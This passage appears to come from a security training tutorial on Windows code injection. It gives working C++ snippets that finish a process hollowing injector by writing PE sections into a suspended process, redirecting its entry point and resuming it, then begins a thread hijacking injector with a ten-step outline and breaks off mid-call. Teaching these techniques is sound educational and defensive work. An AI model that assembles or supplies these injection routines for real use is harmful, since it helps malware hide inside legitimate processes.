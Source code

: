 Now we need to write each section. To find the number of sections, we can use  `NumberOfSections` from the NT headers. We can loop through `e_lfanew` and the size of the current header to write each section.

```cpp
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

	WriteProcessMemory(
		target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
		(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
		(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
		pSectionHeader->SizeOfRawData, // Byte size of current section
		NULL
	);
}
```

It is also possible to use relocation tables to write the file to target memory. This will be discussed in more depth in task 6.

At step five, we can use `SetThreadContext` to change `EAX` to point to the entry point.

```cpp
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to the stored context structure
);
```

At step six, we need to take the process out of a suspended state using `ResumeThread`.

```cpp
ResumeThread(
	target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);
```
We can compile these steps together to create a process hollowing injector.

# Thread Injector
Thread execution can be broken up into
1. Locate and open a target process to control
2. Allocate memory region for malicious code
3. Write malicious code to allocated memory
4. Identify the thread ID of the target thread to hijack
5. Open the target thread
6. Suspend the target thread
7. Obtain the thread context
8. Update the instruction pointer to the malicious code
9. Rewrite the target thread context
10. Resume the hijacked thread
We will break down a basic thread hijacking script to identify each of the steps and explain in more depth below.
The first three steps outlined in this technique follow the same steps as normal process injection
```cpp
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
```